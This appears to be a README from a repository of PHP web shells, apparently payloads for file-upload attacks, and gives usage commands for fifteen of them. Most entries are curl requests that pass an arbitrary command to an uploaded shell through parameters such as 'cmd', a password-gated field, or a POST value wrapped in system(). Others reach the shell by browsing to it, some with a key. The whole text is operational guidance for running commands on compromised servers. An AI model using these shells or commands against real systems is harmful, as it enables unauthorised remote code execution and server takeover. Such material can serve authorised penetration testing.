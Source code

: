 # PHP Payloads Usage

### Replace `{{HOST}}` with the actual host URL and `{{PAYLOAD}}` with the desired payload.

### UFU-PHP-P01.php

```bash
curl {{HOST}}/UFU-PHP-P01.php?a={{PAYLOAD}}
```

### UFU-PHP-P02.php

```bash
curl -X POST -d "hkwwj={{PAYLOAD}}" {{HOST}}/UFU-PHP-P02.php
```

### UFU-PHP-P03.php

```bash
curl -X POST -d "password=lol&cmd={{PAYLOAD}}" {{HOST}}/UFU-PHP-P03.php
```

### UFU-PHP-P04.php

```bash
curl -X POST -d "tt1234=system('{{PAYLOAD}}')" {{HOST}}/UFU-PHP-P04.php
```

### UFU-PHP-P05.php

```bash
curl -X POST -d "_=system('{{PAYLOAD}}')" {{HOST}}/UFU-PHP-P05.php
```

### UFU-PHP-P06.php

```bash
curl -X POST -d "_=system('{{PAYLOAD}}')" {{HOST}}/UFU-PHP-P06.php
```

### UFU-PHP-P07.php

```bash
curl -X POST -d "_=system('{{PAYLOAD}}')" {{HOST}}/UFU-PHP-P07.php
```

### UFU-PHP-P08.php

```bash
curl -X POST -d "_=system('{{PAYLOAD}}')" {{HOST}}/UFU-PHP-P08.php
```

### UFU-PHP-P09.php

```bash
Browser Navigation To {{HOST}}/UFU-PHP-P09.php
```

### UFU-PHP-P10.php

```bash
Browser Navigation To {{HOST}}/UFU-PHP-P10.php
```

### UFU-PHP-P11.php

```bash
curl {{HOST}}/UFU-PHP-P11.php?cmd={{PAYLOAD}}
```

### UFU-PHP-P12.php

```bash
Browser Navigation To {{HOST}}/UFU-PHP-P12.php
```

### UFU-PHP-P13.php

```bash
Browser Navigation To {{HOST}}/UFU-PHP-P13.php?key=hehe
```

### UFU-PHP-P14.php

```bash
Browser Navigation To {{HOST}}/UFU-PHP-P14.php
```

### UFU-PHP-P15.php

```bash
curl -X POST -d "-7=system('{{PAYLOAD}}')" {{HOST}}/UFU-PHP-P15.php
```
